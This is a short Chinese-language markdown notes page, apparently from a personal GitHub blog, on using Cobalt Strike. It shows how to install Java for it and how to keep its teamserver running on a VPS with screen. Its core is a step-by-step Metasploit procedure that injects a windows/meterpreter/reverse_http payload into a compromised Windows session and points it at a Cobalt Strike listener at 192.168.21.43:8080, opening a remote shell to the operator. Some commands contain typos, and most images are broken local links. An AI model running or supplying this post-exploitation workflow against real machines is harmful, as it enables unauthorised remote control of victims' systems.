 ```yaml
---

---
```




#21-08-27 **Cobalt Strike**用法

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827140254423.png)

![image-20210827140409050](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827140409050.png)

![image-20210827160438311](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827162931510.png)

![image-20210827163040114](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827163040114.png)

![image-20210827163212188](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827163212188.png)

![image-20210827173045062](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827173045062.png)

![image-20210827174242671](E:\homework\GitHub\blog\blog\#21-08-27 cs用法\image-20210827174242671.png)





#cs在vps上如何后台运行

在vps上安装screen

apt install screen	

screen -S cs （随便起的名字）切换到screen 执行

screen 文件中写的默认端口是1998

![image-20210901190549230](#21-08-27 cs用法/image-20210901190549230.png) 

然后再进入cs目录启动teamserver

![image-20210901190716774](#21-08-27 cs用法/image-20210901190716774.png)

![image-20210901193355762](#21-08-27 Cobalt Strike用法/image-20210901193355762.png)

![image-20210901193502662](#21-08-27 Cobalt Strike用法/image-20210901193502662.png)

强制切入 screen -rd cs
